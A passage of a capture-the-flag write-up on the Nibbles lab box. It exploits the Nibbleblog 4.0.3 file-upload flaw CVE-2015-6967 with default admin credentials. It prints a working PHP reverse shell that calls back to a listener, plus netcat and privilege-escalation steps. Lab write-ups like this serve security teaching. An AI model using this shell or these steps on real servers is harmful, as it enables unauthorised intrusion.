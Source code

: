 There's seems to be a shell upload vulnerability in nibbleblog version 4.0.3 according to CVE-2015-6967
- This is exactly what we need to gain a foothold on the webserver
- The pre-requisite is that we have admin access to the nibbleblog portal
  - However, we do not have a password
  - Since this is an empty blog, it is highly likely that this could have a default password

We could try using CeWL to generate a password and use Hydra to bruteforce the login

###### "Exploit" Pt 1.

After playing around with the admin portal and  attempting a few passwords, we got blacklisted for a few minutes.
- We need to find a way around this blacklisting!

I searched Google for any default passwords for nibbleblog, but instead received the password for this box (a little unforunate). Nevertheless, it was a password I was planning on trying before attempting to try a more sophisticated approach.

The admin portal creds are `admin:nibbles`

###### "Exploit" Pt 2.

Following the CVE that I found, I uploaded the following reverse shell named `expl.php` using the `my_image` plugin. This CVE mentioned that there is no validation of file extensions and these file extensions are maintaed after uploading. Therefore, we can upload the reverse shell and execute it by accessing the file  in the website's directory structure. Since we have access to what should be private folders, we'll likely be able to find the uploaded shell as publically accessible.

```
<?php

$lhost = "10.10.10.10";
$lport = 4444;

$sock = fsockopen($lhost, $lport);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

?>

```

After uploading it, we setup a netcat listener at:
- `nc -lvnp 4444`

Following the CVE, we access the file at:
- `http://nibbles/nibbleblog/content/private/plugins/my_image/image.php`

This sets up a reverse shell!

#### User Flag

We can traverse to /home/nibbler/ to cat the user.txt file

#### Root Flag

On performing `sudo -l`, we see we can execute the script monitor.sh as root user which resides in the nibbler home directory under the `personal` subdirectory. Currently that does not exist (however, there is a `personal.zip` file we can unzip.

